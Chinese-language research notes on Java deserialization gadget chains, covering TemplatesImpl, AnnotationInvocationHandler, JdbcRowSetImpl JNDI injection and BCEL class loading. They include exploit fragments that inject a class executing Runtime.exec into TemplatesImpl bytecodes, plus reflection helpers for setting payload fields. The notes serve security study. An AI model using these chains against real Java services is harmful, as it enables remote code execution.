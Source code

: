 # java gadget

> 介绍的java gadget都是自己分析组件遇到的。。

## 简单介绍
反序列化过程==将字节流还原成对象实例的过程

反序列化过程==创建空对象+设置对象属性的过程（readObject()函数负责）

反序列化过程==**类的加载+创建对象+调用readObject**

## 思路
Java序列化 基本上找readobject 然后看里面的方法和我们可以控制的参数基本上参数是通过构造方法获得的，然后利用方法去触发下一个方法。或者是利用代理触发invoke方法需要满足代码东西实现invokeHaeder方法。

## readobject

```java
AnnotationInvocationHandler
HashMap#hashCode
PriorityQueue
Hashtable
HashSet  
BadAttributeValueExpException

C3P0
PoolBackedDataSourceBase

Vaadin
NestedMethodProperty

FileUpload
DiskFileItem
```

## invoke代理

```
AnnotationInvocationHandler
AnnotationInvocationHandler#equalsImpl
```

## 危险类

```
InvokerTransformer#transform
InstantiateTransformer#transform
BeanComparator#compare
PropertyUtils.getProperty(new CBtest(),"name");//调用get方法 getName
```

TemplatesImpl

```java
我们从TransletClassLoader#defineClass()向前追溯一下调用链：

TemplatesImpl#getOutputProperties() -> TemplatesImpl#newTransformer() -> TemplatesImpl#getTransletInstance() -> TemplatesImpl#defineTransletClasses() -> TransletClassLoader#defineClass()

追到最前面两个方法TemplatesImpl#getOutputProperties()、TemplatesImpl#newTransformer()，这两者的作用域是public，可以被外部调用。我们尝试用newTransformer()构造一个简单的POC...
    

#无参数的invoke
ReflectionUtils.invokeMethod(newTransformer, TemplatesImpl);

TemplatesImpl.getOutputProperties()
  TemplatesImpl.newTransformer()
  	TemplatesImpl.getTransletInstance()
  		TemplatesImpl.defineTransletClasses()
  			TransletClassLoader.defineClass()
  			
        
利用代码
ClassPool pool = ClassPool.getDefault();
pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
CtClass cc = pool.makeClass("Cat");
String cmd = "java.lang.Runtime.getRuntime().exec(\"calc\");";
cc.makeClassInitializer().insertBefore(cmd);
String randomClassName = "EvilCat" + System.nanoTime();
cc.setName(randomClassName);
cc.setSuperclass(pool.get(AbstractTranslet.class.getName())); 
byte[] classBytes = cc.toBytecode();
byte[][] targetByteCodes = new byte[][]{classBytes};
TemplatesImpl templates = TemplatesImpl.class.newInstance();
setFieldValue(templates, "_bytecodes", targetByteCodes);
setFieldValue(templates, "_name", "name");
setFieldValue(templates, "_class", null);
ObjectBean objectBean = new ObjectBean(Templates.class,templates);

public static void setFieldValue(final Object obj, final String fieldName, final Object value) throws Exception {
    final Field field = getField(obj.getClass(), fieldName);
    field.setAccessible(true);
    field.set(obj, value);
}
public static Field getField(final Class<?> clazz, final String fieldName) {
    Field field = null;
    try {
        field = clazz.getDeclaredField(fieldName);
        field.setAccessible(true);
    }
    catch (NoSuchFieldException ex) {
        if (clazz.getSuperclass() != null)
            field = getField(clazz.getSuperclass(), fieldName);
    }
    return field;
}
```

AnnotationInvocationHandler

```java
ObjectInputStream.readObject()
			AnnotationInvocationHandler.readObject()
				AnnotationInvocationHandler.invoke() (Proxy)
 							invoke

 
entrySet
AnnotationInvocationHandler 反序列化时调用 memberValues 中存放对象的 entrySet 对象

Class<?> c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor<?> constructor = c.getDeclaredConstructors()[0];
constructor.setAccessible(true);
// 创建 ConvertedClosure 的动态代理类实例
Map handler = (Map) Proxy.newProxyInstance(Class.class.getClassLoader(), new Class[]{Map.class}, closure);
// 使用动态代理初始化 AnnotationInvocationHandler
InvocationHandler invocationHandler = (InvocationHandler) constructor.newInstance(Target.class, handler);
```

JdbcRowSetImpl

```java
可以jndi注入

JdbcRowSetImpl rs = new JdbcRowSetImpl();
rs.setDataSourceName("ldap://127.0.0.1:2333/test");
Method method = JdbcRowSetImpl.class.getDeclaredMethod("getDatabaseMetaData");
```

HashMap

```
HashMap<Object, Object> map = new HashMap<>();
map.put(expression, "");
map.put("", "");

// 先放入带有无害的 ValueExpression，put 到 map 之后再反射写入 valueExpression 字段避免触发
Field field1 = expression.getClass().getDeclaredField("valueExpression");
field1.setAccessible(true);
field1.set(expression, valueExpression);
```

HashSet
    
```
HashSet hashSet = new HashSet(1);
hashSet.add(entry);
```

BadAttributeValueExpException 触发toString
```
BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException("");
Field valField = BadAttributeValueExpException.class.getDeclaredField("val");
valField.setAccessible(true);
valField.set(badAttributeValueExpException,xxxxx);
```


## 写文件

aspectjweaver组件

```
SimpleCache#put
```

## class.forname

这里我们使用com.sun.org.apache.bcel.internal.util.ClassLoader这个动态加载器。这个classloader允许传入经过BCEL编码的字节码内容(className),所以我们对恶意类的字节码进行BCEL编码,赋给className,classloader指定为这个加载器，调用class.forname(className, true, classloader)就会加载恶意类的静态代码块中的代码

## java内省

```
getReadMethod()，获得用于读取属性值的方法；getWriteMethod()，获得用于写入属性值的方法;

简单的说安全问题就是可以调用set和get方法

com.sun.syndication.feed.impl#ToStringBean
PropertyDescriptor[] pds = BeanIntrospector.getPropertyDescriptors(this._beanClass);
 Method pReadMethod = pds[i].getReadMethod();
 Object value = pReadMethod.invoke(this._obj, NO_PARAMS);
```


